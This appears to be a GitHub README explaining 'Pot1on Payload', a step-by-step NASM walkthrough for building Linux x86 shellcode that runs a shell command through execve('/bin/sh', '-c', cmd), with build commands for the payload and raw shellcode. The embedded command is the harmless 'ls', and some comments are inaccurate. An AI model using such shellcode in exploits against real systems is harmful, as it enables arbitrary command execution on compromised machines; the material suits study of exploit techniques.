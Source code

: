 # Pot1on Payload

*Linux method of executing system commands*

Pot1on Payload is a method of executing system commands through shellcodes and nasm executables on Linux.

## Explaining

Pot1on Payload uses Linux `execve()` system call that allows you to execute filename.

```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

Pot1on Payload fills this function like this, it uses file `/bin/sh` with option `-c` to execute system commands.

```c
int execve("/////bin/sh", ["/////bin/sh", "-c", cmd], NULL);
```

Linux `execve()` registers:

| Register | Value |
|----------|-------|
| `ebx`    | `const char *filename` |
| `ecx`    | `char *const argv[]`   |
| `edx`    | `char *const envp[]`   |

**0.** Setup entry point

```nasm
section .text
global _start
```

**1.** Set all registers and make a system call

```nasm
xor     eax,    eax     ; zero-initialize eax
xor     edx,    edx     ; zero-initialize eax
mov     al,     0xb     ; int execve(const char *filename, char *const argv[], char *const envp[]);
```

**2.** Save `-c` value to `edi`

```nasm
push    edx             ; save NULL value to edx
push    word    0x632d  ; -c value
mov     edi,    esp     ; save -c value to edi
```

**3.** Save `/////bin/sh` value to `ebx`

```nasm
push    edx             ; save NULL value to edx
push    0x6873          ; sh value
push    0x2f6e6962      ; /bin value
push    0x2f2f2f2f      ; //// value
mov     ebx,    esp     ; save /////bin/sh value to ebx
```

**4.** Push NULL to edx to avoid `envp[]` errors.

```nasm
push    edx             ; save NULL value to edx
```

**5.** Take command data

```nasm
jmp short cmd_data      ; jump to take the command
```

**command data:**

```nasm
cmd_data:
        call args               ; call args
        cmd: db         "ls"    ; set command value
```

**6.** Call args from `cmd_data` (save arguments to `ecx`)

```nasm
args:
        push    edi             ; push -c value
        push    ebx             ; push /////bin/sh value
        mov     ecx,    esp     ; save /////bin/sh -c cmd NULL
        int     0x80            ; exit program
```

## Usage

**Get payload:**

```
make payload
./payload
```

**Get shellcode:**

```
make shellcode
```

**Get debug:**

```
make debug
```
